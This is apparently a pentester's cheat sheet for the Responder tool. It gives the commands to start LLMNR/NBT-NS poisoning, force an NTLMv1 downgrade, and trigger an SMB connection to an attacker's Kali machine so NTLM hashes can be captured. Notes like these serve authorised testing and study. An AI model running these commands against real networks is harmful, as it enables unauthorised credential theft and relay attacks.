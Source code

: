 > An inbuilt Kali Linux tool for Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) that responds to specific NetBIOS queries based on the file server request. This tool can be launched by running responder -I eth0 (ethernet adapter name of your network that you want to) -h in the Terminal
> 
> This package contains Responder/MultiRelay, an LLMNR, NBT-NS and MDNS poisoner. It will answer to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix (see: [http://support.microsoft.com/kb/163409)](http://support.microsoft.com/kb/163409)). By default, the tool will only answer to File Server Service request, which is for SMB.


#Web_Application #Windows_Privilege_Escalation #Password_Attacks #NTLM_Hash

Starting Responder on interface tap0
```bash
sudo responder -I tap0
```

Starting Responder verbose to see same hashes again
```
sudo responder -I tun0 -v
```
- Delete Responder.db file to re-capture previously captured hashes

Starting Responder with downgrade to force NTLMv1 if possible
```
sudo responder -I tun0 --lm --disable-ess -v
```

Use the dir command to create an SMB connection to our Kali machine
```cmd
dir \\192.168.123.69\test
```
